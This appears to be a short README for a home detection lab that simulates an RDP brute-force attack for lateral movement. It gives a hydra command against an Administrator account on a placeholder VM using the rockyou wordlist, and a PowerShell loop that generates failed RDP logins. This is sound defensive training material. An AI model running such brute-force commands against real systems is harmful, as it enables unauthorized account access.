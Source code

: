 # 🛡️ Scenario 2: Lateral Movement via RDP Brute Force

## 🎯 Objective

Simulate and detect an RDP brute-force attack using stolen credentials—a common lateral movement technique by threat actors.

---

## 🧪 Attack Simulation

### ✅ From Kali Linux (Attacker):
```bash
hydra -t 4 -V -f -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://<Windows_VM_IP>

'''
                        or
for ($i = 0; $i -lt 5; $i++) {
    cmdkey /add:127.0.0.1 /user:fakeuser /pass:wrongpass
    mstsc /v:127.0.0.1
}
